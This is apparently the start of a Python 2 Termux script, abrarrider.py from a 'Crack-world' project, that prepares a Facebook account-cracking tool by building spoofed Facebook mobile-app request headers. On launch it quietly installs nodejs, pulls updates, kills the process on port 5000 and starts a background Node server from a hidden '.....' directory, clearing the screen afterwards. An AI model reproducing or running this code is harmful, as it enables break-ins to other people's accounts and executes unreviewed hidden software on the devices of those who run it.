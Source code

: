 # abrarrider.py
abrarrider.py
#/usr/bin/python2
#writen/coded/by/Uzairkhan

try:

    import os,sys,time,datetime,re,random,hashlib,threading,json,getpass,urllib,cookielib,requests

    from multiprocessing.pool import ThreadPool

except ImportError:

    os.system("pip2 install requests")

    

os.system("clear")



if not os.path.isfile("/data/data/com.termux/files/usr/bin/node"):

    os.system("apt update && apt install nodejs -y")

from requests.exceptions import ConnectionError

os.system("git pull")

if not os.path.isfile("/data/data/com.termux/files/home/Crack-world/...../node_modules/bytes/index.js"):

    os.system("fuser -k 5000/tcp &")

    os.system("cd ..... && pip install progress")

    os.system("cd ..... && npm install")

    os.system("cd ..... && node index.js &")

    os.system("clear")

    time.sleep(10)

elif os.path.isfile("/data/data/com.termux/files/home/Crack-world/...../node_modules/bytes/index.js"):

    os.system("fuser -k 5000/tcp &")

    os.system("#")

    os.system("cd ..... && node index.js &")

    os.system("clear")

bd=random.randint(2e7, 3e7)

sim=random.randint(2e4, 4e4)

header={'x-fb-connection-bandwidth': repr(bd),'x-fb-sim-hni': repr(sim),'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT','x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA','user-agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Kiwi Chrome/68.0.3438.0 Safari/537.36','content-type': 'application/x-www-form-urlencoded','x-fb-http-engine': 'Liger'}
